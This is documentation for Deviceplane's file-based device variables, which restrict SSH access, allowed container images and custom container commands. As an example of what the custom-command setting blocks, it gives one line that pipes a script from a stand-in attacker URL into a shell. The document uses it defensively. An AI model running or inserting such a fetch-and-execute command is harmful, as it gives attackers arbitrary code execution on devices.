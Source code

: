 
<Docs title="Device Variables">

# Device variables

Device variables allow you to customize various aspects of Deviceplane agent behavior. Variables are set through the filesystem meaning that interactions occur by placing files in a specific location (`/etc/deviceplane`). The agent detects these changes (without ever needing a restart) and changes behavior accordingly.

## Variables

Below is a reference list of flags available in the API. All of these flags should be placed in the `/etc/deviceplane` directory as a standalone file. For example, the `authorized-ssh-keys` file would exist as a file at `/etc/deviceplane/authorized-ssh-keys`.

### authorized-ssh-keys

The `authorized-ssh-keys` variable sets the list of allowed keys for SSH access to a device. This file follows the standard `authorized_keys` format for SSH.

Adding this variable fundamentally changes how SSH authorization works. Normally authorization for SSH occurs in the Deviceplane backend as all other API requests are. After adding this variable the agent will begin also authorizing using SSH keys.

SSH via CLI is currently the only supported method when using this variable. SSH via the UI is not yet supported when using this variable.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to SSH to any devices without also having an authorized SSH key
- If you lose access to your SSH keys you will have no way of accessing your device

### disable-ssh

The `disable-ssh` variable disables SSH access to the device. This should be an empty file; its presence or absence is all that's needed.

This variable is useful for restricting SSH access from the side of the device. For example, imagine a device with a touchscreen in use by a customer who would prefer to have SSH access to their device allowed only when they explicitly opt-in. The variable `disable-ssh` could be present on the device by default, and then the customer could opt-in to have their device accessed via some type of settings page in the running application. This settings page could create or remove `/etc/deviceplane/authorized-keys` to turn on or off SSH access.

### whitelisted-images

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `whitelisted-images` variable sets the list of images that can be used on a device. If this file is nonexistent or empty, any image will be allowed.

An image is allowed if its name is prefixed by a line in the file.

For example, the following `whitelisted-images` file will allow:

- The `redis` image, with any tag, or no tag (which defaults to latest)
- And any images from the `myorg` org (e.g. `myorg/deployimage`)

```
redis
myorg/
```

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to launch images that aren't in your `whitelisted-images` file.
- If all images that run on your device are under your org name on DockerHub (e.g. `myorg/`), then keeping this list up to date is easy!

### disable-custom-commands

> It's recommended to use the `whitelisted-images` variable in conjunction with `disable-custom-commands`.

The `disable-custom-commands` variable disables custom commands in the application config. Like `disable-ssh`, this should be an empty file; its presence or absence is all that's needed.

When this variable is set, the `command` and `entrypoint` keys are not allowed to be used. The agent will refuse to run services that use the keys and log an error.

Here is a list of implications with this change.

- If a bad actor gets access to a Deviceplane access key then they won't be able to change the `entrypoint`/`command` of a container to execute arbitrary code. For example, `entrypoint: curl http://attackersurl.test | sh`, will be disallowed.

</Docs>
